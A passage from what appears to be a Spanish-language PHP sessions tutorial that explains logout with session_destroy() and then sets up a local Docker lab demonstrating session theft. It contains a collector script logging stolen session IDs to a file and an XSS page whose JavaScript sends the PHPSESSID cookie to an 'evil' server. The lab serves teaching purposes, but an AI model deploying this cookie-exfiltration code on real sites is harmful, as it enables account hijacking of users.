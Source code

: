 
Para poder desconectar a un usuario, y así desasociarlo de su ID de Sesión, se utiliza el método `session_destroy()`. Y lo podemos realizar creando un nuevo archivo llamado `logout.php`.

```php
<?php
session_start();
session_unset();
session_destroy();
//redirigimos a login.php
header('Location: login.php');
```







## Robo de sesión

Como ya sabemos, el ID de sesión es único. Por lo cual, si alguien consigue robártelo, puede suplantar tu identidad y realizar acciones con tu cuenta como si las realizases tú. Esto lo veremos ahora con un caso práctico de robo de sesión.



Por un lado, comenzaremos creando una página llamada `robo-de-sesion.php`, que almacenaremos en un contenedor **Docker**, que hará la función de servidor web "**evil**" y escuchará en el puerto **8080**, por así decirlo. Esta página contendrá lo siguiente:

```php
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```



Y por otro lado, crearemos una segunda página llamada `hackeada.php`, en otro contenedor **Docker**,  que realizará la función de servidor web "**seguro**" y escuchará en el puerto **8086**. Esta página contendrá lo siguiente:

```php
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8080/robo-de-sesion.php?session_robada=" + c;
</script>

</body>
</html>
```
